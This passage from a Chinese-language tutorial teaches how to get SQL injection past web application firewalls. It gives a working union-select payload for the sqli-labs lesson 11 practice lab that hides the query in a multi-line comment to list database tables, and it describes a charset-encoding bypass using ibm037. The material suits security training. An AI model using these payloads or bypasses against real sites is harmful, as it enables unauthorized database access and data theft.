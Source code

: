 
 POST型 

选用sqllib第11关

使用命令：

```sql
uname=' union select
/*
sdf

123456789
qwejiknklfnaltkkoi
*/(select group_concat(table_name) from information_schema.tables where table_schema=database()),2#&passwd=123&submit=Submit
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677738846693-3a165f88-33fd-432e-8eb2-4200e58e341b.png)

规则中使用多行匹配模式依然可以检查出攻击。很多时候，基于性能考虑，规则没有使用多行匹配模式。导致存在绕过的可能。

# HTTP 数据编码绕过 

编码绕过在绕 waf 中也是经常遇到的，通常 waf 只坚持他所识别的编码，比如说它只识别 utf-8 的字符，但是服务器可以识别比 utf-8 更多的编码。那么我们只需要将 payload 按照 waf 识别不了但是服务器可以解析识别的编码格式即可绕过。

比如请求包中我们可以把Content-Type中的charset的参数值改为ibm037，这个协议编码有些服务器是支持的。
